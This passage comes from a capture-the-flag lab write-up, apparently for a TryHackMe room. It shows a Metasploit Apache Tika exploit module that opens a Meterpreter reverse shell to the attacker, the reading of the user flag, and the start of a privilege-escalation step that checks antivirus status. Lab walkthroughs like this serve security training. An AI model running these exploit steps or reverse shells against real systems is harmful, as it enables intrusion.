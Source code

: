 I loaded the module, set the required options, executed the exploit, and successfully retrieved the user flag:
```bash
  msf6 > use exploit/windows/http/apache_tika_jp2_jscript
  [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RHOSTS 10.10.52.174
  RHOSTS => 10.10.52.174
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RPORT 61777
  RPORT => 61777
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > set SRVHOST tun0
  SRVHOST => [removed]
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > set LHOST tun0
  LHOST => [removed]

  msf6 exploit(windows/http/apache_tika_jp2_jscript) > exploit

  [*] Started reverse TCP handler on [removed]:4444 
  [*] Running automatic check ("set AutoCheck false" to disable)
  [+] The target is vulnerable.
  [...]
  [*] Command Stager progress - 100.00% done (98798/98798 bytes)
  [*] Sending stage (176198 bytes) to 10.10.52.174
  [*] Meterpreter session 1 opened ([removed]:4444 -> 10.10.52.174:49783) at 2025-03-14 12:45:37 -0400

  meterpreter > cd C:\\Users\\CyberLens\\Desktop\\
  meterpreter > cat user.txt
  THM{T[removed]n}
```

## Privilege Escalation root

Since I gained initial access via a Meterpeter reverse shell, I was able to switch to the PowerShell console. From there, I ran `Get-MpComputerStatus` to check if any antivirus systems where in place that could interfere with privilege escalation:
```bash
  PS C:\> Get-MpComputerStatus
  AMEngineVersion                  : 0.0.0.0
  AMProductVersion                 : 4.18.23050.3
  AMRunningMode                    : Not running
  AMServiceEnabled                 : False
  AMServiceVersion                 : 0.0.0.0
  AntispywareEnabled               : False
  AntispywareSignatureAge          : 4294967295
  AntispywareSignatureLastUpdated  : 
  AntispywareSignatureVersion      : 0.0.0.0
  AntivirusEnabled                 : False
  AntivirusSignatureAge            : 4294967295
  AntivirusSignatureLastUpdated    : 
  AntivirusSignatureVersion        : 0.0.0.0
  BehaviorMonitorEnabled           : False
  ComputerID                       : 3DBFE4F2-4B29-4FF5-531E-E6C7CDAE6B2E
  ComputerState                    : 0
  DefenderSignaturesOutOfDate      : False
  DeviceControlDefaultEnforcement  : N/A
  DeviceControlPoliciesLastUpdated : 1/1/1601 12:00:00 AM
  DeviceControlState               : N/A
  FullScanAge                      : 4294967295
  FullScanEndTime                  : 
  FullScanOverdue                  : False
  FullScanRequired                 : False
  FullScanSignatureVersion         : 
  FullScanStartTime                : 
  IoavProtectionEnabled            : False
```